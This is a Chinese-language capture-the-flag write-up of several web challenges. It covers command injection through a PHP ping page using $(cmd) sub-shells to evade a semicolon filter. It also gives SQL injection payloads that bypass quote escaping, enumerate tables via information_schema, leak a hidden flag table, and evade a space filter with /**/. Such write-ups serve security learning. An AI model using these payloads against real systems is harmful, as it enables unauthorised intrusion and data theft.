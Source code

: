 ```php=
                exec("ping -c 1 \"{$ip}\" 2>&1", $ret);
                return implode("\n", array_slice($ret, 0, 10));
            }
        }

        if(!empty($_GET['ip']))
            echo htmlentities(ping($_GET['ip']));
        else
            highlight_file(__FILE__);
    ?></pre>
</body>
</html>
```
- 初步是想到可以透過 `;` 分隔 cmd，讓 ping cmd 做完後接著其他 cmd，但可以發現 `;` 被禁止了。
- 想想還有什麼方式能執行 bash cmd，查了一下發現用 `$(cmd)` 或 `` `cmd` `` 可以執行 sub-shell，所以能這樣去執行 ls。
    
    ![](https://i.imgur.com/EUD0SXY.png)

- 可以看到他 ping 的目標變成 ls sub-shell cmd 執行後的結果。
- 再來 `cat` 被禁了，還有甚麼方法印出檔案內容 (`tac`, `head`, `tail`, `less`, `more`, `perl`)

## scorecoard
- HTML 原始碼中沒有藏 FLAG，那哪裡還有可能藏資訊呢? 可以想想 HTTP 有什麼東西。
- F12 Network 下發現 server 回傳的 response 藏了東西。

    ![](https://i.imgur.com/yb3Yies.png)

## login as admin 0
- 題目給的 source code 可以看到做以黑名單的方式做 filter，另外會將 `'` replace 成 `\'`。
- 這樣在合進 sql 語法時就可以直接是 `username = '\''` (也就是 ' 的 escape)，就不會有單引號的功能。
- 繞過方法也很簡單，輸入`'` 時前面多加個`\`，合到 sql 字串就會變成`username = '\\''` 會 escape 掉`\`，變成`\'`字串，而不是 ' 的 escape，單引號就又有功能了。
- 最後再用 limit 來找 admin 的 data 登入，就完事了。
    - `\' or 2=2 limit 1, 1 #`

## login as admin 0.1
- 用 `\' union select 1, 2, 3, 4 #` 可以登入，得知 column 數是 4。

    ![](https://i.imgur.com/OwxBcm1.png)
- Username 可以看到 2，所以我們可以在這邊去 leak 出其他 data。
- 嘗試`\' union select 1, (SELECT table_name FROM information_schema.tables where table_schema = database() limit 0, 1), 3, 4 #` 來 leak 出資料庫的其他資料表，馬上就發現 `h1dden_f14g` 資料表。
- `\' union select 1, (SELECT column_name FROM information_schema.columns WHERE table_schema=database() AND table_name= (SELECT table_name FROM information_schema.tables where table_schema = database() limit 0, 1) limit 0, 1), 3, 4 #` 從 `h1dden_f14g` 找，發現 `the_f14g` column。
- 得知 table name 跟 column name 就完事了
`\' union select 1, (SELECT  the_f14g FROM h1dden_f14g limit 0, 1) ,3,4 #`

## login as admin 1
- 這題跟前面很像，就是 filter 不一樣而已。
- 空格用 `/**/` 繞過，稍微改一下就可以找到 admin 登入。
`\'/**/or/**/2=2/**/limit/**/1,1/**/#`
